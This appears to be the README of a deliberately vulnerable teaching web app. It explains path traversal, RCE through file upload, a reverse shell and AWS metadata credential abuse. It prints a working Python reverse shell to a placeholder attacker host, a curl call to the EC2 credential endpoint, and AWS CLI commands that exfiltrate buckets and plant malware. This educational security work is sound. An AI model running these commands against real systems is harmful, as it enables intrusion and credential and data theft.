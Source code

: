 # Vulnerable Web Application Demo

> ⚠️ **Warning:** This is an intentionally vulnerable web application designed for educational purposes only. Do not deploy this in a production environment!

## About This Demo

This application demonstrates common web security vulnerabilities that can occur in real-world applications. It serves as a learning platform to understand how these vulnerabilities work and how they can be exploited.

## 🔓 Identified Vulnerabilities

### 1. Path Traversal Vulnerability

**Issue:** Incorrect nginx configuration allows directory traversal attacks.

**Impact:** Attackers can access any file on the server outside the intended web directory.

**Example:** Try accessing `/static/../../app.py` to view the application source code.

**Root Cause:** The nginx configuration doesn't properly restrict access to parent directories.

> **Try it:** Navigate to `/static/../../app.py` to see the main application file!

---

### 2. Remote Code Execution (RCE)

**Issue:** Poor architecture design allows normal users to overwrite Python files in the resumes directory.

**Impact:** Attackers can upload malicious Python files that get executed on the server, leading to complete system compromise.

**Attack Vector:** Upload a malicious .py file to the resumes directory, which can then be executed by the application.

**Root Cause:** The application allows file uploads without proper validation and places executable Python files in an accessible directory.

**Educational Note:** In a real attack, this could allow an attacker to:
- Execute arbitrary commands on the server
- Access sensitive files and databases
- Install backdoors for persistent access
- Pivot to other systems on the network

---

### 3. Reverse Shell & Remote Command Execution 🐚

**Issue:** RCE vulnerability enables attackers to establish a reverse shell for interactive remote access.

**Impact:** An attacker can maintain persistent, interactive access to the server and execute commands in real-time.

**Attack Scenario:**
1. Exploit the file upload vulnerability to upload a malicious Python script
2. Script establishes a reverse shell connection back to attacker's machine
3. Attacker gains full terminal access to the compromised server
4. Can explore the system, exfiltrate data, and escalate privileges

**Example Reverse Shell Command:**

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("attacker-ip",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
```

---

### 4. Cloud Security Exploitation (AWS EC2) ☁️

**Issue:** This application runs on an AWS EC2 instance with overly permissive IAM instance role.

**Impact:** Once an attacker gains shell access, they can leverage the EC2 instance's IAM role to access AWS resources beyond the compromised server.

#### 🎯 Cloud Attack Chain

**Step 1: Gain Shell Access**
- Use RCE/Reverse Shell to obtain terminal access on the EC2 instance

**Step 2: Enumerate IAM Credentials**
- Query the EC2 instance metadata service to retrieve temporary credentials:

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

**Step 3: Exploit Overly Permissive Role**

If the instance role has excessive permissions, attackers could:
- Access S3 buckets containing sensitive data (customer info, backups, credentials)
- Read/write DynamoDB tables
- Launch additional EC2 instances for cryptomining
- Modify security groups to open backdoors
- Access Secrets Manager or Parameter Store secrets
- Exfiltrate data from RDS databases
- Modify Lambda functions or IAM policies
- Pivot to other AWS services and accounts

#### ⚠️ Real-World Example

An instance role with `s3:*` permissions could allow an attacker to:

```bash
# List all S3 buckets in the account
aws s3 ls

# Download sensitive data
aws s3 sync s3://company-secrets ./exfiltrated-data

# Upload backdoors or ransomware
aws s3 cp malware.sh s3://production-app/startup.sh
```

This demonstrates the importance of applying the principle of least privilege to IAM roles.

#### 🔐 Common Misconfigurations

- `AdministratorAccess` policy attached to instance role
- Wildcard permissions like `s3:*` or `ec2:*`
- Resource set to `*` instead of specific ARNs
- No conditions on sensitive actions
- Cross-account access without proper restrictions

